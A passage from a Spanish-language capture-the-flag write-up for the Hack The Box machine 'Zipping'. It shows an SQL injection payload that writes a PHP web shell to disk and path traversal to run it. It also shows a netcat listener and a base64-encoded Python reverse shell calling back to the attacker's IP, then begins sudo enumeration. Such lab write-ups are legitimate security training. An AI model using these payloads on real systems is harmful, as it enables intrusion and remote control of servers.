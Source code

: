 ### Ingreso al sistema para obtener el flag del usuario
Colocamos una shell en php sencilla en el archivo test2.php, quedando el valor del `id` de la siguiente manera:  
```
%0A'; select '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' into outfile '/var/lib/mysql/test2.php'; --1	
```
Ejecutamos.  
![Desktop View](/writeup-htb-zipping/sql2.png)
_sql injection_
Colocamos en el navegador `http://10.10.11.229/shop/index.php?page=../../../../../../../../../var/lib/mysql/test2&cmd=id`, donde adicional de traer nuestra shell vamos a ejecutar el comando id.  
Vemos que el comando id se ejecutó correctamente.  
![Desktop View](/writeup-htb-zipping/test2.png)
_test2.php_
Ahora bien para poder ejecutar comandos desde nuestra terminal, lo que podemos hacer es colocar nuestro puerto 3222 en escucha por medio de netcat.
```bash
nc -lvnp 3222
```
En el navegador vamos a colocar el siguiente valor en el parámetro `cmd`.
```
echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjE2MCIsMzIyMikpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oImJhc2giKSc=" | base64 -d | bash
```
> Donde el valor del echo es: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.160",3222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'` solo que está encodeado en base64.
{: .prompt-info }
Ejecutamos.  
![Desktop View](/writeup-htb-zipping/shell.png)
_Obtención shell_
Luego de unos segundos ya tenemos nuestra shell en nuestra terminal.  
![Desktop View](/writeup-htb-zipping/shell2.png)
_Shell_
Ahora nos dirigimos a la carpeta del usuario donde encontramos su flag.  
![Desktop View](/writeup-htb-zipping/user flag.png)
_Flag del usuario_

## Escalada de privilegios (Privilege escalation)
Como desafío final debemos de escalar privilegios para obtener el acceso a root. Realizamos la enumeración del sistema y en los permisos sudo encontramos que podemos ejecutar un archivo como root.  
Para ver los permisos sudo, digitamos el siguiente comando.  
```bash
sudo -l
```
![Desktop View](/writeup-htb-zipping/sudo -l.png)
_sudo -l_
